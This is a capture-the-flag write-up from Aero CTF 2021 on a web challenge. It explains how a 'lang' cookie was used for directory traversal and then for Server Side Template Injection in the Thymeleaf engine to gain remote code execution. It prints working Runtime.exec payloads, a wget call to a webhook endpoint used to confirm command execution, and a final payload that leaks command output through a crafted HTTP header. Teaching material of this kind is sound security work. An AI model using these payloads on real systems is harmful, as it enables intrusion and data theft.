

## Aero CTF 2021
### Author: p4w @ [beerpwn](https://beerpwn.it)
### Twitter https://twitter.com/p4w16

## Challenge description (Web category)


## TL;DR
__Server Side Template Injection__ on __Thymeleaf__ template engine to gain __RCE__.

## Solution
### Discovery of the vuln
The challenge description says that the site is __available in english and russian__, this probably is written to point the attention to something involving the language.
Also the challenge description tell that the flag should be located at `/` on the file system, this make me think that it is necessary to gain at least an __arbitrary file read__ or __RCE__ to get the flag.
By inspection the site it is possible to notice that we can choose the language by clicking on a button.
As it is possible to notice that when the button is clicked (`onclick` event), then the `set_language(lang)` function will be executed.


The function simply set a cookie named __lang__ with the values __en__ or __ru__ and then reload the page.
Let's inspect the requests with burp-proxy.


The first thing that I tried during the CTF, was to modify the cookie with some simple directory traversal payloads.


The directory traversal seems working, but if we try to include some arbitrary file (such as __/etc/passwd__) we got a __500 internal server error__. The error is verbose enough to show the server side exception: __org.thymeleaf.exceptions.TemplateInputException__ and
by googling this error, I come across to this template engine: [thymeleaf](https://www.thymeleaf.org/).



The exception thrown seems to be related to loading the template, and that smells like __SSTI__ to me. So I start searching for __SSTI on Thymeleaf__ and I discovered a couple of related articles:
* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
* [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)

### Exploitation
Reading these articles, we can notice that a template injection in __Thymeleaf__ it may be possible if _a template name or a fragment are concatenated with untrusted data_.
To get a better explanation and details I really council the readers to read the articles mentioned before.
The proposed payloads to gain __RCE__ are these:

* `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("<cmd-here>").getInputStream()).next()}__::.x`
* `${T(java.lang.Runtime).getRuntime().exec('<cmd-here>')}`

At this point I simply tried one of these payloads into the __lang__ cookie with a command such as ping `wget <webhook-endpoint>` to verify the __command execution__
and it worked __:=)__.


Now I had __RCE__ and since the flag was located in __/__, I needed some way to enumerate the file system contents and extract the flag. Problem was that it was not possible to use all the bash functionality such us `|, &, ``, $`. I also tried to extract files with and write files with `wget`, but no luck with that solution.
To summarize I had the ability to run commands, but no way to build a payload (__time based__ or __OOB__) that allow me to extract the output of an arbitrary command.
At this point I start to read the __thymeleaf__ [documentation](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html) and some [Java-doc](https://docs.oracle.com/javaee/6/api/javax/servlet/http/HttpServletResponse.html) for Java objects, the basic idea that I had was to insert the output of the executed command directly into the __response__, for example by using a crafted HTTP header response with the output. After a bit of pain, I was able to build this payload: `__${#response.setHeader("cmd-out","test")}__::.x` and it worked __:)__!\
*[the above payload should work well on __Thymeleaf 3.0__, probably for __Thymeleaf 2.1__ could be: `__${#ctx.httpServletResponse.setHeader("cmd-out","test")}__::.x`]


Now that we have the ability to modify the response, I simply played a bit with the Java-doc to build a payload that reads the output of the command and save it into the crafted header.
The final payload:
```
__${#response.setHeader(\"cmd-out\",#uris.escapeQueryParam(new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec(\"ls\").getInputStream())).lines().toArray()[0]))}__::.x
```
This payload will execute the `ls` command, read the first line, url-encode it and insert in the `cmd-header` of the HTTP response.

[Here](./x.py) you can download a simple python script that I made during the CTF to automate all of these steps and read all the lines of the executed command.


That's all folk, I think that was really an interesting challenge!\
Cheers, [p4w](https://twitter.com/p4w16) =)
